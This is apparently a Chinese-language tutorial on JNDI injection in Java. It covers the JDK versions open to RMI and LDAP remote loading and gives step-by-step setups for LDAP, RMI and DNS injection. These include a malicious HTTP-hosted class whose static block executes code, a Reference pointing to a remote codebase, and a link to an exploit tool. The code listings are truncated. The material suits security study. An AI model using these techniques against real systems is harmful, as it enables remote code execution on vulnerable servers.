

JNDI
JNDI（java Naming and Directory Interface，java命名和目录接口)是一组应用程序接口，访问命名和目录的API，命令服务将名称和对象连接起来，使得我们可以用名称访问对象
JNDI可以根据名字动态加载数据，支持的服务主要有以下几种：
RMI：Java远程方法调用。JNDI底层支持RMI远程对象，RMI注册的服务可以通过JNDI接口来访问和调用。
DNS：域名服务
LDAP：轻量级目录访问协议
CORBA对象服务：公共对象请求代理体系结构
| JDK6 | JDK7 | JDK8 | JDK11 | |
|---|---|---|---|---|
| RMI可用 | 6U132以下 | 7U122以下 | 8U113以下 | 无 |
| LDAP可用 | 6U211以下 | 7U201以下 | 8U191以下 | 11.0.1以下 |
Reference类表示对存在于命名/目录系统以外的对象的引用，Java为了将Object对象存储在Naming或Directory服务下，提供了Naming Reference功能。对象可以通过绑定Reference，存储在Naming或Directory服务下，比如RMI、LDAP等。
关于ldap注入可利用现场的https://github.com/WhiteHSBG/JNDIExploit
LDAP注入
流程

漏洞端
一个简单的漏洞端的代码如下，其中必须包含lookup()方法，并且lookup()方法中的url可控，便可产生漏洞。
1 | import javax.naming.InitialContext; |
ldap服务端
随便一段ldap服务的代码均可
http端
一个简单的包含执行恶意代码的http端
1 | public class Exploit0bject{ |
注意点
1.http端恶意类的类名Exploit0bject需要和ldap服务端转发名一致
2.static代码块为该类中最先执行的，相当于初始化；其次再是static关键字修饰的变量，最后再是其他代码块
3.Exploit0bject这个类名会报错（missing package statement ‘xxxx’），一定不能点击添加“set package name to ‘xxxx’”。因为http端与漏洞端是分离的，不在一个包
4.编译http端恶意类时要与当前漏洞端所对应的Java版本一致，将Exploit0bject.java编译为Exploit0bject.class文件放至http服务下
1 | javac Exploit0bject.java |
RMI注入
流程
漏洞端
一个简单的漏洞端的代码如下：
1 | import javax.naming.InitialContext; |
注意
String url = "rmi://127.0.0.1:7777/calc"中的calc对应rmi服务端的registry.bind( name: "calc",wrapper)的calc
rmi服务端
一个简单的rmi服务端的代码如下：
1 | import com.sun.jndi.rmi.registry.ReferenceWrapper; |
注意
registry.bind( name: "calc",wrapper)与Reference reference = new Reference( clssName:"test", factory: "test",factorylocation:"http://ip:8000/")是联系的，意思是将calc服务映射 为http服务端的http://ip:8000/中的test类(clssName)下的test方法(factory)
http端
一个简单的http服务端的代码如下：
1 | public class test{ |
执行此段代码之后会打开当前工程所在的文件夹，即使没有开启http端的服务，原因如下：
开启调试后，跟踪lookup()方法
1 | #lookup分析 |
一步一步跟踪到以下方法
会发现一段代码，意思是先在本地找这个服务
如果没有找到，就使用codebase服务，就是远程加载
综合意思就是，如果在漏洞端本地没有calc这个服务，才会去http服务端执行远程加载，若漏洞端本地有calc这个服务，就不会访问http服务端
DNS注入
一个简单的漏洞端的代码如下：
1 | import javax.naming.InitialContext; |
用dns比较简单，可以探测漏洞的存在，并且不暴露自己服务器；若dns收到请求，证明漏洞存在